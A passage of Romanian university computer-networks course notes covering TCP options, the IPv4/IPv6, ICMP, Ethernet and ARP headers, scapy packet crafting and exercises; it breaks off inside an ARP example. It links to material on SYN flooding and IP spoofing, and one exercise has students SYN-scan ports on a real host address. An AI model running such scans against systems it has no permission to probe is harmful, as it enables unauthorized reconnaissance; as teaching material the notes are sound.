{0: ('EOL', None), 1: ('NOP', None), 2: ('MSS', '!H'), 3: ('WScale', '!B'), 4: ('SAckOK', None), 5: ('SAck', '!'), 8: ('Timestamp', '!II'), 14: ('AltChkSum', '!BH'), 15: ('AltChkSumOpt', None), 25: ('Mood', '!p'), 28: ('UTO', '!H'), 34: ('TFO', '!II')}
```

<a name="tcp_options_scapy"></a> 
#### Optiuni TCP in scapy
În scapy opțiunile pot fi setate printr-o listă tupluri: `[(Optiune1, Valoare1), ('NOP', None), ('NOP', None), (Optiune2, Valoare2), ('EOL', None)]`. TCPOptions[0] indica optiunile si indicele de accesare pentru TCPOptions[1]. Iar TCPOptions[1] indică formatul (sau pe cați biți) se regăseste fiecare opțiune. Formatul cu `!` ne spune că biții pe care îi setăm trebuie să fie în [Network Order (Big Endian)](https://stackoverflow.com/questions/13514614/why-is-network-byte-order-defined-to-be-big-endian) iar literele arată formatul pe care trebuie să îl folosim cu [struct.pack](https://docs.python.org/2/library/struct.html#format-characters). Spre exemplu, window scale are o dimensiune de 1 byte (`!B`) și valoarea trebuie setată corespunzător:
```python
import struct
optiune = 'WScale'
op_index = TCPOptions[1][optiune]
op_format = TCPOptions[0][op_index]
print op_format
# opțiunea window scale are o dimensiune de 1 byte (`!B`)
# ('WScale', '!B')
valoare = struct.pack(op_format[1], 15)
# valoarea 15 a fost împachetată într-un string de 1 byte
tcp.option = [(optiune, valoare)]
```

#### Atacuri simple la nivelul TCP
- [Shrew DoS attack](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=60)
- [Syn Flooding](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=68)

<a name="exercitii"></a> 
## Exerciții
1. Instanțiați un server UDP și faceți schimb de mesaje cu un client scapy.  (Este necesara schimbarea socket-ului de L3 pentru aplicatii locale ```python conf.L3socket=L3RawSocket```)
2. Rulați 3-way handshake între server și client folosind containerele definite în capitolul3, astfel: containerul `server` va rula `capitolul2/tcp_server.py` pe adresa '0.0.0.0', iar în containerul `client` configurați și rulați fișierul din [capitolul3/src/examples/tcp_handshake.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/src/examples/tcp_handshake.py) pentru a face 3-way handshake.
3. Configurați opțiunea pentru Maximum Segment Size (MSS) astfel încat să îl notificați pe server că segmentul maxim este de 1 byte. Puteți să-l configurați cu 0?
4. Trimiteți mesaje TCP folosind flag-ul PSH și scapy.
5. Setați flag-urile ECN în IP și flag-ul ECE in TCP pentru a notifica serverul de congestionarea rețelei.
6. [TCP Syn Scanning](https://scapy.readthedocs.io/en/latest/usage.html#syn-scans) - folosiți scapy pentru a crea un pachet cu IP-ul destinație 193.226.51.6 (site-ul facultății) și un layer de TCP cu dport=(10, 500) pentru a afla care porturi sunt deschise comunicării cu TCP pe site-ul facultății.
7. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)

# Capitolul 4 - Network Layer

## Cuprins
- [Requiremets](#intro)
- [IPv4 Datagram](#ipv4)
  - [IPv4 Raw Socket](#ip_raw_socket)
  - [IPv4 Scapy](#ip_scapy)
- [Subnetting, Routing, and other stuff](#ipv4routing)
- [IPv6 Datagram](#ipv6)
  - [IPv6 Socket](#ipv6_socket)
  - [IPv6 Scapy](#ipv6_scapy)
- [Internet Control Message Protocol (ICMP)](#scapy_icmp)
- [Exerciții](#exercitii)

<a name="intro"></a> 
## Introducere
**Important:** continuăm cu aceeași configurație ca în capitolul3 și urmărim secțiunea introductivă de acolo.
```
cd computer-networks

# ștergem toate containerele create default
docker-compose down

# ștergem rețelele create anterior ca să nu se suprapună cu noile subnets
docker network prune

# lucrăm cu docker-compose.yml din capitolul3
cd capitolul3
docker-compose up -d

# sau din directorul computer-networks: 
# docker-compose -f capitolul3/docker-compose.yml up -d
```


<a name="ipv4"></a> 
## [Internet Protocol Datagram v4 - IPv4](https://tools.ietf.org/html/rfc791#page-11)
```
  0               1               2               3              4 Offs.
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |Version|  IHL  |     DSCP  |ECN|          Total Length         |  1
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |         Identification        |Flags|      Fragment Offset    |  2
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |  Time to Live |    Protocol   |         Header Checksum       |  3
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                       Source Address                          |  4
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Destination Address                        |  5
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Options    (if IHL  > 5)                   |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                   Application + TCP data                      | 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-

```
Prima specificație a protocolului IP a fost în [RFC791](https://tools.ietf.org/html/rfc791) iar câmpurile sunt explicate foarte bine în aceste [note de curs](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=14).

#### Câmpurile antetului

- Version - 4 pentru ipv4
- IHL - similar cu Data offset de la TCP, ne spune care este dimnesiunea header-ului în multiplii de 32 de biți. Dacă nu sunt specificate opțiuni, IHL este 5.
- [DSCP](https://en.wikipedia.org/wiki/Differentiated_services) - în tcpdump mai apare ca ToS (type of service), acest camp a fost definit în [RFC2474](https://tools.ietf.org/html/rfc2474) și setează politici de retransmitere a pachetelor, ca [aici](https://en.wikipedia.org/wiki/Differentiated_services#Commonly_used_DSCP_values). Aici puteți găsi un [ghid de setare pentru DSCP](https://tools.ietf.org/html/rfc4594#page-19). Câmpul acesta are un rol important în prioritizarea pachetelor de tip video, voce sau streaming.
- ECN - definit în [RFC3186](https://tools.ietf.org/html/rfc3168) este folosit de către routere, pentru a notifica transmițătorii cu privire la existența unor congestionări pe rețea. Setarea flag-ului pe 11 (Congestion Encountered - CE), va determina layer-ul TCP să își seteze ECE, CWR și NS.
- Total length - lumgimea totală in octeti, cu header și date pentru întreg-ul datagram
- Identification - un id care este folosit pentru idenficarea pachetelor fragmentate
- [Flags](https://en.wikipedia.org/wiki/IPv4#Flags) - flag-uri de fragmentare, bitul 0 e rezervat, bitul 1 indică DF - don't fragment, iar bitul 2 setat, ne spune că mai urmează fragmente.
- Fragment Offset - offset-ul unui fragment curent în raport cu fragmentul inițial, măsurat în multiplu de 8 octeți (64 biți).
- Time to Live (TTL) -  numărul maxim de routere prin care poate trece IP datagram pâna în punctul în care e discarded
- Protocol - indică codul [protocolului](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers) din interiorul secvenței de date
- Header checksum - aceeași metodă de checksum ca la [TCP si UDP](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Checksum_computation), adică suma în complement 1, a fragmentelor de câte 16 biți, dar în cazul acesta se aplică **doar pentru header**. Această sumă este puțin redundantă având în vedere că se mai calculează o dată peste pseudoheader-ul de la TCP sau UDP.
- Source/Destination Address - adrese ip pe 32 de biți
- [Options](https://www.iana.org/assignments/ip-parameters/ip-parameters.xhtml) - sunt opțiuni la nivelul IP. Mai multe informații despre rolul acestora puteți găsi [aici](http://www.tcpipguide.com/free/t_IPDatagramOptionsandOptionFormat.htm), [aici](http://www.cc.ntut.edu.tw/~kwke/DC2006/ipo.pdf) și specificația completă [aici](http://www.networksorcery.com/enp/protocol/ip.htm#Options). Din [lista de 30 de optiuni](https://www.iana.org/assignments/ip-parameters/ip-parameters.xhtml), cel putin 11 sunt deprecated in mod oficial, 8 sunt experimentale/ putin documentate, din cele ramase, o buna parte sunt neimplementate de catre routere sau prezinta riscuri de securitate. Spre exemplu, optiunea [traceroute](https://networkengineering.stackexchange.com/questions/10453/ip-traceroute-rfc-1393), si optiunea [record route](https://networkengineering.stackexchange.com/questions/41886/how-does-the-ipv4-option-record-route-work) care nu au fost implementate, sau optiunile [source based routing](https://howdoesinternetwork.com/2014/source-based-routing) cu risc sporit de securitate, mai multe în [acest raport](https://www2.eecs.berkeley.edu/Pubs/TechRpts/2005/EECS-2005-24.pdf). 

###### Wireshark IPv4 Options
Ca să captați cu [Wireshark](https://osqa-ask.wireshark.org/questions/25504/how-to-capture-based-on-ip-header-length-using-a-capture-filter) IP datagrams care conțin opțiuni, puteți folosi filtrul care verifică ultimii 4 biți ai primului octet: `ip[0] & 0xf != 5`. Veți putea observa pachete cu [protocolul IGMP](https://www.youtube.com/watch?v=2fduBqQQbps) care are setată [opțiunea Router Alert](http://www.rfc-editor.org/rfc/rfc6398.html) 


<a name="ip_raw_socket"></a> 
### IPv4 Object from Raw Socket
Folosim datele ca octeti din exemplul cu UDP Raw Socket de mai sus:
```python
import socket
import struct

data = b'E\x00\x00!\xc2\xd2@\x00@\x11\xeb\xe1\xc6\n\x00\x01\xc6\n\x00\x02\x08\xae\t\x1a\x00\r\x8c6salut'

# extragem headerul de baza de IP:
ip_header = struct.unpack('!BBHHHBBH4s4s', data[:20])
ip_ihl_ver, ip_dscp_ecn, ip_tot_len, ip_id, ip_frag, ip_ttl, ip_proto, ip_check, ip_saddr, ip_daddr = ip_header

print("Versiune IP: ", ip_ihl_ver >> 4)
print("Internet Header Length: ", ip_ihl_ver & 0b1111) # & cu 1111 pentru a extrage ultimii 4 biti
print("DSCP: ", ip_dscp_ecn >> 6)
print("ECN: ", ip_dscp_ecn & 0b11) # & cu 11 pt ultimii 2 biti
print("Total Length: ", ip_tot_len)
print("ID: ", ip_id)
print("Flags: ",  bin(ip_frag >> 13))
print("Fragment Offset: ",  ip_frag & 0b111) # & cu 111
print("Time to Live: ",  ip_ttl)
print("Protocol nivel superior: ",  ip_proto)
print("Checksum: ",  ip_check)
print("Adresa sursa: ", socket.inet_ntoa(ip_saddr))
print("Adresa destinatie: ", socket.inet_ntoa(ip_daddr))

if ip_ihl_ver & (16 - 1) == 5:
  print ("header-ul de IP nu are optiuni")

Versiune IP:  4
Internet Header Length:  5
DSCP:  0
ECN:  0
Total Length:  33
ID:  49874
Flags:  0b10
Fragment Offset:  0
Time to Live:  64
Protocol nivel superior:  17
Checksum:  60385
Adresa sursa:  198.10.0.1
Adresa destinatie:  198.10.0.2
``` 


<a name="ip_scapy"></a> 
### IPv4 object in scapy
```python
ip = IP() 
ip.show()
###[ IP ]### 
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\

# observăm că DSCP și ECN nu sunt înca implementate în scapy.
# daca vrem să le folosim, va trebui să setăm tos cu o valoare
# pe 8 biți care să reprezinte DSCP și ECN folosind: int('DSCP_BINARY_STR' + 'ECN_BINARY_STR', 2)
# pentru a seta DSCP cu cod AF32 pentru video streaming și ECN cu notificare de congestie: ip.tos = int('011100' + '11', 2)
```

#### Atacuri simple folosind IP
- [IP Spoofing](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=71)
- [IP Spoofing Mitigation](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=84)
- [Network Ingress Filtering: Defeating Denial of Service Attacks which employ IP Source Address Spoofing](https://tools.ietf.org/html/bcp38)


<a name="ipv4routing"></a> 
## Subnetting, Routing, and other stuff
Pe scurt, aici sunt link-urile cu informații esențiale despre rutare:
- mai întâi urmăriți în partea de curs informațiile de bază despre [curs forwarding](https://github.com/senisioi/computer-networks/tree/2021/curs#forwarding) și [curs rutare](https://github.com/senisioi/computer-networks/tree/2021/curs#routing)
- despre subnets și VPC în AWS există mai [multe explicații aici](https://docs.aws.amazon.com/vpc/latest/userguide/VPC_Subnets.html) 
- Fraida Fund are un tutorial foarte bun despre cum pot fi alocate [IP-uri subrețelelor](https://witestlab.poly.edu/blog/designing-subnets/); cu toate că nu aveți cont pe GENI, puteți replica întregul set-up pe docker modificând docker-compose.yml din capitolul3
- pentur [Distance Vector Routing](https://en.wikipedia.org/wiki/Distance-vector_routing_protocol#Example) există un exemplu foarte ușor de urmărit pe wikipedia, inclusiv cu [Split Horizon si Poison Reverse](https://en.wikipedia.org/wiki/Split_horizon_route_advertisement)
- [Link State Routing](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=397) este foarte bine explicat în cartea pentru curs
- [OSPF](https://www.youtube.com/watch?v=kfvJ8QVJscc)
- un alt tutorial al Fraidei Fund, despre BGP este [cel de aici](https://witestlab.poly.edu/blog/a-peek-into-internet-routing/)
- [Autonomous Systems](https://www.cidr-report.org/as2.0/)
- [BGP looking glasses](https://www.bgp4.as/looking-glasses)
- [MPLS](https://www.youtube.com/watch?v=U1w-b9GIt0k) prezentat într-un scurt video


<a name="ipv6"></a> 
## [Internet Protocol Datagram v6 - IPv6](https://tools.ietf.org/html/rfc2460#page-4)
```
  0               1               2               3              4 Offs.
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |Version| Traffic Class |           Flow Label                  |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |         Payload Length        |  Next Header  |   Hop Limit   |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                                                               |
 -                                                               -
 |                                                               |
 -                         Source Address                        -
 |                                                               |
 -                                                               -
 |                                                               |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                                                               |
 -                                                               -
 |                                                               |
 -                      Destination Address                      -
 |                                                               |
 -                                                               -
 |                                                               |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
```
Prima specificație a protocolului IPv6 a fost în 1998 [rfc2460](https://tools.ietf.org/html/rfc2460) iar detaliile despre semnificația câmpurilor se găsesc în aceste [note de curs](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=23).

#### Câmpurile antetului IPv6

- Version - 6 pentru ipv6
- Traffic Class        8-bit [traffic class field](https://tools.ietf.org/html/rfc2460#section-7), similar cu [DSCP](https://en.wikipedia.org/wiki/Differentiated_services) 
- Flow Label           [20-bit flow label](https://tools.ietf.org/html/rfc2460#section-6), semantica definită [aici](https://tools.ietf.org/html/rfc2460#page-30), este folosit și în instanțierea socketului prin IPv6.
- Payload Length       16-bit unsigned integer care include si extra headerele adaugate
- Next Header          8-bit selector similar cu câmpul Protocol din IPv4
- Hop Limit            8-bit unsigned integer similar cu câmpul TTL din IPv4
- Source Address       128-bit addresă sursă
- Destination Address  128-bit addresă destinație
- Headerul poate fi extins prin adăugarea mai multor headere in payload, vezi [aici](https://tools.ietf.org/html/rfc2460#page-6)
- Pseudoheaderul pentru checksum-ul calculat de layerele de transport se formează diferit, vezi [aici](https://tools.ietf.org/html/rfc2460#page-27)
- Adresele sunt stocate in 8 grupuri de câte 16 biti: `fe80:cd00:0000:0000:1257:0000:0000:729c`
- Numărul total de adrese IPv6 este 340282366920938463463374607431768211456, suficient pentru toate device-urile existente
- Adresa IPv6 pentru loopback localhost este `::1/128` 
- Dublu `::` este o variantă prin care se prescurtează secventele continue cele mai din stânga de `0`, adresa de mai sus este prescurtată: `fe80:cd00::1257:0:0:729c`

<a name="ipv6_socket" ></a>
### IPv6 Socket
#### Server
```python
import socket
import sys
# try to detect whether IPv6 is supported at the present system and
# fetch the IPv6 address of localhost.
if not socket.has_ipv6:
    print("Nu putem folosi IPv6")
    sys.exit(1)

# "::0" este echivalent cu 0.0.0.0
infos = socket.getaddrinfo("::0", 8080, socket.AF_INET6, 0, socket.IPPROTO_TCP, socket.AI_CANONNAME)
# [(<AddressFamily.AF_INET6: 10>, <SocketKind.SOCK_STREAM: 1>, 6, '', ('::', 8080, 0, 0))]
# info contine o lista de parametri, pentru fiecare interfata, cu care se poate instantia un socket
print (len(infos))
1

info = infos[0]
adress_family = info[0].value # AF_INET
socket_type = info[1].value # SOCK_STREAM
protocol = info[2].value # IPPTROTO_TCP == 6
cannonical_name = info[3] # tot ::0 adresa de echivalenta cu 0.0.0.0
adresa_pt_bind = info[4] # tuplu ('::', 8080, 0, 0):
'''
Metodele de setare a adreselor (bind, connect, sendto) 
pentru socketul IPv6 sunt un tuplu cu urmatoarele valori:
- adresa_IPv6               ::0
- port                      8080
- flow_label ca in header   0
- scope-id - id pt NIC      0
mai multe detalii: https://stackoverflow.com/a/11930859
'''

# instantiem socket TCP cu AF_INET6
s = socket.socket(socket.AF_INET6, socket.SOCK_STREAM, proto=socket.IPPROTO_TCP)

# executam bind pe tuplu ('::', 8080, 0, 0)
s.bind(adresa_pt_bind)

# restul e la fel ca la IPv4
s.listen(1)
conn, addr = s.accept()
print(conn.recv(1400))
conn.send(b'am primit mesajul')
conn.close()
s.close()
```

#### Client
```python
import socket
import sys
# try to detect whether IPv6 is supported at the present system and
# fetch the IPv6 address of localhost.
if not socket.has_ipv6:
    print("Nu putem folosi IPv6")
    sys.exit(1)

s = socket.socket(socket.AF_INET6, socket.SOCK_STREAM, proto=socket.IPPROTO_TCP)
adresa = ('::', 8080, 0, 0)
s.connect(adresa)

# restul e la fel ca la IPv4
s.send(b'Salut prin IPv6')
print (s.recv(1400))
s.close()
```

<a name="ipv6_scapy" ></a>
### IPv6 Scapy
```python
ip = IPv6()
ip.show()
###[ IPv6 ]### 
  version= 6
  tc= 0
  fl= 0
  plen= None
  nh= No Next Header
  hlim= 64
  src= ::1
  dst= ::1

ip.dst = '::1' # localhost
# trimitem la un server UDP care asteapta pe (::0, 8081, 0, 0)
udp = UDP(sport=1234, dport=8081)  
send(ip / udp / b'salut prin ipv6')

```

<a name="scapy_icmp"></a> 
### [Internet Control Message Protocol (ICMP)](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol#Control_messages)

Am discutat despre ICMP și ping pentru a verifica dacă două device-uri pot comunica unul cu altul. Principala funcție a protocolului ICMP este de [a raprota erori](https://www.cloudflare.com/learning/ddos/glossary/internet-control-message-protocol-icmp/) iar [mesajele de control](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol#Control_messages) pot varia de la faptul că un host, port sau protocol este inaccesibil până la notificarea că TTL a expirat în tranzit.

```python
ICMP().show()
###[ ICMP ]### 
  type= echo-request
  code= 0
  chksum= None
  id= 0x0
  seq= 0x0

# facem un pachet echo-request, ping
icmp = ICMP(type = 'echo-request')
ip = IP(dst = "137.254.16.101")
pachet = ip / icmp

# folosim sr1 pentru send și un reply
rec = sr1(pachet)
rec.show()

###[ IP ]### 
  version= 4
  ihl= 5
  tos= 0x0
  len= 28
  id= 48253
  flags= DF
  frag= 0
  ttl= 242
  proto= icmp
  chksum= 0x23e7
  src= 137.254.16.101
  dst= 1.15.3.1
  \options\
###[ ICMP ]### 
     type= echo-reply
     code= 0
     chksum= 0x0
     id= 0x0
     seq= 0x0
```


<a name="exercitii"></a> 
## Exerciții
1. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)
2. Implementați un traceroute folosind ICMP.
3. Urmăriți opțiunile de sysctls din linux și încercați diferite valori pentru udp_mem, tcp_ecn, tcp_min_snd_mss, [ip_nonlocal_bind](https://www.cyberciti.biz/faq/linux-bind-ip-that-doesnt-exist-with-net-ipv4-ip_nonlocal_bind/), sau mtu în containere.

# Capitolul 5 - Link Layer

## Cuprins
- [Requrements](#intro)
- [Ethernet Frame](#ether)
  - [Ethernet Object in Scapy](#ether_scapy)
- [Address Resolution Protocol](#arp)
  - [ARP in Scapy](#arp_scapy)
- [Exerciții](#exercitii)


<a name="intro"></a> 
## Introducere
**Important:** continuăm cu aceeași configurație ca în capitolul3 și urmărim secțiunea introductivă de acolo.
```
cd computer-networks

# ștergem toate containerele create default
docker-compose down

# ștergem rețelele create anterior ca să nu se suprapună cu noile subnets
docker network prune

# lucrăm cu docker-compose.yml din capitolul3
cd capitolul3
docker-compose up -d

# sau din directorul computer-networks: 
# docker-compose -f capitolul3/docker-compose.yml up -d
```

<a name="ether"></a> 
## [Ethernet Frame](https://en.wikipedia.org/wiki/Ethernet_frame#Structure)
```
      0    1    2    3    4    5    6    7    Octet nr.
   *----*----*----*----*----*----*----*----*
F  |            Preabmle              | SF | preambul: 7x 10101010, SF: 10101011
   *----*----*----*----*----*----*----*----*
DL |          Source MAC         |           MAC sursa: 02:42:c6:0a:00:02
   *----*----*----*----*----*----*      
DL |     Destination MAC         |           MAC dest:  02:42:c6:0a:00:01 (gateway)
   *----*----*----*----*----*----*
DL | 802-1Q (optional) |
   *----*----*----*----*
DL | EthType |                               0x0800 pt IPv4, 0x0806 pt ARP, 0x86DD pt IPv6
   *----*----*----*---------------------------------------
DL |   Application payload + TCP + IP (max 1500 octets)      <--- maximum transmission unit (MTU)
   *----*----*----*---------------------------------------
DL |  32-bit CRC  |                                          <--- cod de detectare erori
   *----*----*----*----*----*----*----*-------
F  |     Interpacket Gap  - interval de timp |
   *----*----*----*----*----*----*----*-------
```
La nivelurile legatură de date și fizic, avem standardele [IEEE 802](https://ieeexplore.ieee.org/browse/standards/get-program/page/series?id=68) care ne definesc structurile cadrelor (frames).
Explicații:

- [Istoria protocolului Ethernet](https://www.enwoven.com/collections/view/1834/timeline).
- [Cartea albastră a protocolului Ethernet](http://decnet.ipv7.net/docs/dundas/aa-k759b-tk.pdf)
- [Mai multe detalii](https://notes.shichao.io/tcpv1/ch3/).

Fiecare secventă de 4 liniuțe reprezintă un octet (nu un bit ca in diagramele anterioare) iar headerul cuprinde:
- [preambulul](https://networkengineering.stackexchange.com/questions/24842/how-does-the-preamble-synchronize-other-devices-receiving-clocks) are o dimensiune de 7 octeți, fiecare octet de forma 10101010, și este folosit pentru sincronizarea ceasului receiver-ului. Mai multe detalii despre ethernet în acest [clip](https://www.youtube.com/watch?v=5u52wbqBgEY).
- SF (start of frame) reprezinta un octet (10101011) care delimitează start of frame
- [adresele MAC (Media Access Control)](http://www.dcs.gla.ac.uk/~lewis/networkpages/m04s03EthernetFrame.htm), sursă și destinație, sunt reprezentate pe 6 octeți (48 de biți). [Aici puteți citi articolul](https://ethernethistory.typepad.com/papers/HostNumbers.pdf) din 1981 despre specificația adreselor. Există o serie de [adrese rezervate](https://www.cavebear.com/archive/cavebear/Ethernet/multicast.html) pentru
- [802-1q](https://en.wikipedia.org/wiki/IEEE_802.1Q) este un header pentru rețele locale virtuale (aici un [exemplu de configurare VLAN](https://www.redhat.com/sysadmin/vlans-configuration)).
- EthType indică codul [protocolului](https://en.wikipedia.org/wiki/EtherType#Examples) din layer-ul superior acestui frame
- codul [CRC](https://en.wikipedia.org/wiki/Cyclic_redundancy_check#Computation) pentru [polinomul de Ethernet](https://xcore.github.io/doc_tips_and_tricks/crc.html#the-polynomial) pe 32 de biti: [0x 04 C1 1D B7]() cu [exemplu si aici](https://stackoverflow.com/questions/2587766/how-is-a-crc32-checksum-calculated)
- [Interpacket Gap](https://en.wikipedia.org/wiki/Interpacket_gap) - nu face efectiv parte din frame, ci reprezintă un spațiu de inactivitate, mai bine explicat [aici](http://www.mplsvpn.info/2010/05/what-is-inter-packet-gap-or-inter-frame.html).

Standaredele 802.11 pentru Wi-Fi au alta structura a frameurilor. Mai multe explicatii se gasesc in curs, la nivelul data link si in [materialul acesta](https://www.oreilly.com/library/view/80211-wireless-networks/0596100523/ch04.html) iar exemple de utilizare cu scapy pot fi [accesate aici](https://wlan1nde.wordpress.com/2016/06/28/using-scapy-to-send-wlan-frames/)

<a name="ether_scapy"></a> 
### Ethernet Object in Scapy
```python
e = Ether()       
e.show()
WARNING: Mac address to reach destination not found. Using broadcast.
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 02:42:c6:0d:00:0e
  type= 0x9000

# preambulul, start of frame și interpacket gap sunt parte a nivelului fizic
# CRC-ul este calculat automat de către kernel
# singurele câmpuri de care trebuie să ținem cont sunt adresele și EthType
```

<a name="arp"></a> 
## [Address Resolution Protocol](http://www.erg.abdn.ac.uk/users/gorry/course/inet-pages/arp.html)
[ARP](https://www.youtube.com/watch?v=QPi5Nvxaosw) este un protocol care face maparea între protocolul de retea (IP) și adresele hardware/fizice sau Media Access Control (MAC) de pe o rețea locală. Acesta a fost definit în [RFC 826](https://tools.ietf.org/html/rfc826), în 1982 și este strâns legat de adresele IPv4, pentru IPv6 există [neighbour discovery](https://tools.ietf.org/html/rfc3122). Un tutorial bun și mai multe explicații pot fi [găsite și aici](http://www.danzig.jct.ac.il/tcp-ip-lab/ibm-tutorial/3376c28.html)

Antetul pentru ARP este redat cu adresele hardware iesind din limita de 32 de biti:
```
  0               1               2               3              4 Offs.
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |         HWType                |           ProtoType           |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |   HWLen       |   ProtoLen    |          Operation            |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                   Adresa Hardware Sursa          de tipul  HWType          <--- HWLen octeti (6 pt Ethernet)
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                   Adresa Proto Destinatie        de tipul ProtoType        <--- ProtoLen octeti (4 pt IPv4)
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                   Adresa Hardware Destinatie                               <--- HWLen octeti (6 pt Ethernet)
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                   Adresa Proto Destinatie                                  <--- ProtoLen octeti (4 pt IPv4)
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-

```

- HWType - [tipul de adresa fizică](https://www.iana.org/assignments/arp-parameters/arp-parameters.xhtml#arp-parameters-2), codul 1 pentru Ethernet (adrese MAC)
- ProtoType - indică codul [protocolului](https://en.wikipedia.org/wiki/EtherType#Examples) folosit ca adresa la nivelul rețea - 0x0800 sau 2048 pentru IPv4
- HWLen - este lungimea adresei hardware sursă sau destinație, pentru Ethernet valoarea este 6 (o adresă MAC are 6 octeți)
- ProtoLen - reprezintă lungimea adresei de la protocolul destinație, pentru IPv4 valoarea este 4 (o adresă IPv4 are 4 octeți)
- Adresa Hardware Sursă/Destinație - lungime variabilă în funcție de HWLen, în general adrese Ethernet
- Adresa Proto Sursă/Destinație - lungime variabilă în funcție de HWLen, în general adrese IPv4
 
<a name="arp_scapy"></a> 
### Ethernet Object in Scapy
Vom lucra cu adrese MAC standard și IPv4, acestea sunt publice și sunt colectate din rețeaua locală. În scapy este deja implementat antetul pentru ARP:
```python
>>> ls(ARP)
hwtype     : XShortField                         = (1)                     # ce tip de adresa fizica, 1 pt MAC-uri
ptype      : XShortEnumField                     = (2048)                  # protocolul folosit, similar cu EthType 
hwlen      : ByteField                           = (6)                     # dimensiunea adresei MAC (6 octeti)
plen       : ByteField                           = (4)                     # dimensiunea adresei IP (pentru v4, 4 octeti)
op         : ShortEnumField                      = (1)                     # operatiunea 1 pentru request, 0 pentru reply   
hwsrc      : ARPSourceMACField                   = (None)                  # adresa MAC sursa
psrc       : SourceIPField                       = (None)                  # adresa IP sursa
hwdst      : MACField                            = ('00:00:00:00:00:00')   # adresa MAC destinatie
pdst       : IPField                             = ('0.0.0.0')             # adresa IP destinatie (poate fi si un subnet)
```

Pentru a putea trimite un mesaj unui IP din rețeaua locală, va trebui să știm adresa hardware a acestuia iar ca să aflăm această adresă trebuie să trimitem pe întreaga rețea locală (prin difuzare sau broadcast) întrebarea "Cine are adresa MAC pentru IP-ul X?". În cazul în care un dispozitiv primește această întrebare și se identifică cu adresa IP, el va răspunde cu adresa lui fizică.
Perechile de adrese hardware și adrese IP sunt stocate într-un tabel cache pe fiecare dispozitiv. 

Exemplu în scapy:
```python
# adresa fizică rezervata pentru broadcast ff:ff:ff:ff:ff:ff
eth = Ether(dst = "ff:ff:ff:ff:ff:ff")

# adresa proto destinație - IP pentru care dorim să aflăm adersa fizică
arp = ARP(pdst = '198.13.13.1')

# folosim srp1 - send - receive (sr) 1 pachet
# litera p din srp1 indică faptul că trimitem pachetul la layer data link 
answered = srp1(eth / arp, timeout = 2)

if answered is not None:
    print (answered[ARP].psrc)
    # adresa fizică este:
